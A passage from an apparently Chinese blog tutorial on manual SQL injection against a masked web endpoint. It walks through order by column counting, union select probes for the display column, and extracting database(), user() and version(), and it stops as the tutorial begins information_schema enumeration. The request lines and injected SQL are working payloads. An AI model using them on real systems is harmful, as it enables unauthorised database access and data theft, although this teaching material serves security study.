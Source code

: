 ![](https://img-blog.csdn.net/20170729231033087)
(2)GEThttp://xxxxx/prefix/**CN')+****order+by+8\#**HTTP/1.1(正常显示)
对应的SQL语句：
select .... from table where area=('cn') order by 8 \#and xxxx;
如果出现乱码，则点击右部的“Response body is encoded. Click to decode.”按钮进行查看。
(3)GEThttp://xxxxx/prefix/**CN')+****order+by+9\#**HTTP/1.1(错误显示)
对应的SQL语句：
select .... from table where area=('cn') order by 9 \#and xxxx;
表示该查询总共8个字段，下面需要开始测试反馈内容。重点：字段共8个。

**3.数据库获取显示位 union**
在得到字段个数后，需要获取字段位置，则使用union或union all。其中union表示将两个select结果整体显示，并合并相同的结果，union all显示全部结果。例如：

![](https://img-blog.csdn.net/20170712230408730)
(1)GEThttp://xxxxx/prefix/**CN')****+union+select+null,null,null,null,null,null,null,null\#**HTTP/1.1
对应的SQL语句：
select .... from table where area=('cn')
union select null,null,null,null,null,null,null,null  \#and xxxx;
正常显示，共8个null，表示通配符，对应8个字段。
![](https://img-blog.csdn.net/20170729232455829)
(2)GEThttp://xxxxx/prefix/**CN')****+union+select+1,2,3,4,5,6,7,8\#**HTTP/1.1
对应的SQL语句：
select .... from table where area=('cn')
union select 1,2,3,4,5,6,7,8  \#and xxxx;
此时需要观察反馈的数字，它就是我们获取的那道门，该数字这是进入房间的大门。前面第一篇文章是通过URL测试，如果报错则null替换数字，此时不需要。
(3)GEThttp://xxxxx/prefix/**CNab')****+union+select+1,2,3,4,5,6,7,8\#**HTTP/1.1
对应的SQL语句：
select .... from table where area=('CNab')
union select 1,2,3,4,5,6,7,8  \#and xxxx;
然后将"CN"修改成"Cnab"，让其报错不反馈前面的内容，而反馈后面union select 1....8的数字，运行结果如下所示，数字6则为漏洞。
重点：CNab让第一条SQL语句不返回，只关注我们的信息。
![](https://img-blog.csdn.net/20170729233640181)
接下来想办法将我们需要的结果在这里显示即可，数据都是从后台数据库中查询出来的。
**4.数据库显示应数据 database()**
(1)GEThttp://xxxxx/prefix/**CN')****+union+select+1,2,3,4,5,database(),7,8\#**HTTP/1.1
对应的SQL语句：
select .... from table where area=('cn')
union select 1,2,3,4,5,database(),7,8  \#and xxxx;
MySQL数据库中database()用于获取数据库的内容，version()用于获取当前数据库版本号内容。如下当前数据库为20170720df。

![](https://img-blog.csdn.net/20170729234106096)

查询的结果如下所示，数据库为mfa。

![](https://img-blog.csdn.net/20170729234437101)
如果想连接，则使用concat()拼接函数：
(2) union+select+1,2,3,4,5,**concat(user(),0x20,database(),0x20,version())**,7,8\#
反馈结果，0x20表示空格：
**mfaroot@localhost mfa 5.5.4-deb8u1-log**
<div class="line-block"></div>
<div class="line-block"></div>
**5.获取当前所有数据库 information_schema**
那么怎么获取数据库所有的数据库名呢？
作者最早想到的是SQL语句：
select table_name from information_schema.tables;
该语句反馈整个数据库系统中，所有的表名，如下所示：
